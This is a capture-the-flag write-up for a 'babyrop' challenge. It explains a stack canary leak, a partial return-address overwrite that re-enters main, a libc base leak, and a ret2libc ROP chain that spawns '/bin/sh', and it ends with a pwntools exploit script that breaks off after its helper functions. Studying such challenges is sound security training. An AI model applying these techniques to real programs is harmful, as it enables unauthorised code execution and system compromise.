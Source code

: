 **Leak the Stack Canary**
On the first interaction, we provide the address:

```plaintext
[buffer_address + canary_offset]
```

This lets us leak the **stack canary** using the program’s built-in memory read feature.
We record this value to safely bypass the canary check later.



**Partial Overwrite to Re-Enter Main**

The return address already ends with ``0x90`` (the low byte).
We can take advantage of this by **partially overwriting** the high byte(s) of the return address to jump back into ```main``` — this gives us a second chance to interact and build our full exploit.


**Leak the Libc Base**

For the second interaction, we want to leak the libc address.
We send:
```plaintext
[buffer_address + ret_offset]
```
This points to a saved return address on the stack — specifically a pointer to ```__libc_start_main+243```.

Because we **know the offset** of ```__libc_start_main+243``` in libc (```0x24083```), we can subtract and recover the **libc base**.



**ret2libc — Spawn a Shell**

On the second call to ```read```, we craft a final payload:

- Fill buffer until canary
- Insert the leaked canary
- Add padding to reach RIP
- Then place a **ROP chain**:
```python
payload += p64(pop_rdi)
payload += p64(next(lib.search(b"/bin/sh\x00")))
payload += p64(libc.symbols['system'])
```
This executes ```system("/bin/sh")``` and gives us a shell. 🎉

## Exploit
```python
from pwn import *

offset_canary = 0x58
offset_ret = 0x8
offset_start = 0x24083

def run():
    elf = context.binary = ELF("/challenge/babyrop_level13.1")
    return elf.process()

def leak(r,offset):
    r.recvuntil(b"located at: ") 
    address = int(r.recvline().strip(b".\n"),16)
    r.sendline(hex(address + offset))
    r.recvuntil(b"[LEAK] ")
    leaked = int(r.recvline().split(b" = ")[1].strip() ,16)

    print(f"{hex(leaked)}")
    return leaked 

```